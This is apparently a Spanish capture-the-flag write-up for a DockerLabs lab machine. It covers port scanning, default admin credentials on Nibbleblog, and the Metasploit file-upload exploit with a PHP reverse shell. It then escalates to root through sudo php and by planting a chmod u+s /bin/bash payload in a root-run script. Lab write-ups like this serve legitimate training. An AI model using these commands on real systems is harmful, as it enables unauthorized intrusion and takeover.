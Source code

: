 # Fase 1- Tanteo

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/3b1baeed-469f-4cf9-93b2-1f82501df7b5)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **80/tcp(HTTP):** Apache 2.4.41 (Ubuntu)
### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Esto llevó a acceder a una pagina por defecto de Apache Ubuntu.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/6dd93135-63f2-4af5-917f-73296165927a)

# Fase 2- Exploración

#### Feroxbuster
Realizando Fuzzing no se encontró absolutamente nada.

#### Codigo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/ca79133c-8725-4e93-a508-ab5dd5689033)
Al hacer **CTRL+U** para revisar el codigo nos encontramos con algo interesante... Un directorio llamado **/nibbleblog**.

#### Nibbleblog
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/e4528d79-4128-467b-aa4a-88f6e456467f)
Al entrar a Nibbleblog nos encontramos con una especie de blog.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/b4655386-ba77-4a9c-9928-da37efa929f7)
Mirando mas de cerca encontramos este enlace `http://172.17.0.2/nibbleblog/admin.php`.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/063ba0cb-c979-41b8-afbd-10164aba614b)
Al entrar es un inicio de sesión. Probamos las credenciales `admin` `admin` y estamos dentro como usuario administrador.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/9a7b9ae1-7d3f-4bed-a1d4-61d36f78549b)
Explorando encontramos la versión utilizada de Nibbleblog.

# Fase 3- Explotación

#### Searchsploit
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/1f1bbf96-b5e1-4903-aa13-5936f8a17346)
Usando la herramienta `searchsploit` encontramos que es vulnerable a `File Upload`.

#### MsfConsole

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/82b5508d-0391-420a-b992-d06f901d35e0)
Estamos dentro! Al principio nos daba un error pero era porque el script aprovecha un plugin que no tenia instalado. Era instalarlo y listo. 
Lista De Comandos:
```ruby
msfconsole
use exploit/multi/http/nibbleblog_file_upload
set PASSWORD admin
set USERNAME admin
set RHOSTS 172.17.0.2
set TARGETURI /nibbleblog/
exploit
```

#### Shell
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/e4fc6088-3661-48e6-97a8-2f6eb560c944)
Subimos una revershell hecha en php desde msfconsole meterpreter para tener la shell a la que estoy acostumbrado y la ejecuto desde el directorio donde la subí desde el navegador.

# Fase 4- Privilegios
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/4ba9a480-a951-4933-aa2c-542bd8bfcb24)
Despues de hacer el tratamiento de la TTY. Ejecutamos el comando `sudo -l` y vemos que tenemos permisos de ejecución del binario `php`.

#### PHP
Abusamos de este:

```shell
CMD="/bin/bash"
sudo -u chocolate /usr/bin/php -r "system('$CMD');"
```

Si listamos los procesos que están corriendo en el sistema. Podemos ver que **root** está ejecutando un script sospechoso:

```shell
ps -faux
----------------------------
root   1  0.0  0.0   2616  1712 ?   Ss   13:15   0:00 /bin/sh -c service apache2 start && while true; do php /opt/script.php; sleep 5; done
```

Si listamos sus permisos vemos que pertenece al usuario **chocolate**:

```shell
ls -l /opt/script.php
------------------------------
-rw-r--r-- 1 chocolate chocolate 59 May  7 13:55 /opt/script.php
```

Podremos cambiarlo a nuestro antojo para ejecutar algo como el usuario **root**:

```shell
echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
```

Y tras esperar un poco:

```shell
ls -l /bin/bash
----------------------------
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Vemos que la bash ya es **SUID** por lo que podemos escalar privilegios.

```shell
bash -p
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximos en el sistema!
